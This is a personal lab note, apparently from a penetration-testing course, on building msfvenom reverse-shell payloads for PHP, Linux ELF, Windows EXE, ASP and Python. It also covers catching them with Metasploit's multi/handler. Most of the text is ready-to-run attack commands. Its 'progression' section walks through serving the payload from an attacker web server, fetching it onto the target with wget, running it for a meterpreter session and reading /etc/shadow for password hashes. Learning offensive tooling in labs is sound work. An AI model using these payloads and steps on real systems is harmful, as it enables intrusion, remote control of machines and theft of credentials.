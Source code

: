 - msfvenom -h (help)
- msfvenom -l payloads
- msfvenom --list formats

#### create payloads (LHOST  must be attackbox)
- msfvenom -p php/meterpreter/reverse_tcp LHOST={ip_address} -f raw -e php/base64
- msfvenom -p php/reverse_php LHOST={ip_address} LPORT=7777 -f raw > reverse_shell.php

The file: reverse_shell.php wil be stored in home/kali/reverse_shell.php.
**remember to edit file so that <?php and ?> is present**

####  Multi Handler 
[[multi handler]] [[reverse shell]] 
 - go into msfconsole and use `use exploit/multi/handler` 
 - use exploit/multi/handler

Linux Executable and Linkable Format (elf)
``msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f elf > rev_shell.elf``
The .elf format is comparable to the .exe format in Windows. These are executable files for Linux. However, you may still need to make sure they have executable permissions on the target machine. For example, once you have the shell.elf file on your target machine, use the chmod +x shell.elf command to accord executable permissions. Once done, you can run this file by typing ./shell.elf on the target machine command line.

Windows
``msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f exe > rev_shell.exe``

PHP
``msfvenom -p php/meterpreter_reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.php``

ASP
``msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f asp > rev_shell.asp``

Python
``msfvenom -p cmd/unix/reverse_python LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.py``

All of the examples above are reverse payloads. This means you will need to have the exploit/multi/handler module listening on your attacking machine to work as a handler. You will need to set up the handler accordingly with the payload, LHOST and LPORT parameters. These values will be the same you have used when creating the msfvenom payload.


#### progression
- ssh into the target machine and ``sudo su`` to get root shell
- Create a meterpreter payload in the .elf format (on the AttackBox, or your attacking machine of choice). 
   ``msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f elf > rev_shell.elf``
- Transfer it to the target machine (you can start a Python web server on your attacking machine with the  ``python3 -m http.server`` 9000  command and use wget http://ATTACKING_MACHINE_IP:9000/rev_shell.elf to download it to the target machine).
-  now the target machine has the shell.elf file on its system
- start a meterpreter session with msfconsole
- chmod 777 rev_shell.elf to make the file downloaded on the target machine executable
- go back in msfconsole, use exploit(multi/handler), then set the payload to the msfvenom payload you created: `linux/x86/meterpreter/reverse_tcp`
- set lhost and port to the same as payload 
- exploit
- the exploit is now listening on the target maching
- return to target machine and run the executable shell you downloaded: `rev_shell.elf` by typing ./rev_shell.elf
- go back to msfconsole and you should now have a meterpreter session running and be inside the target machine
- if the target is a linux machine you can't use `hashdump`, instead you must cd into etc/ find the shadow file and `cat shadow`. This should show the hashes
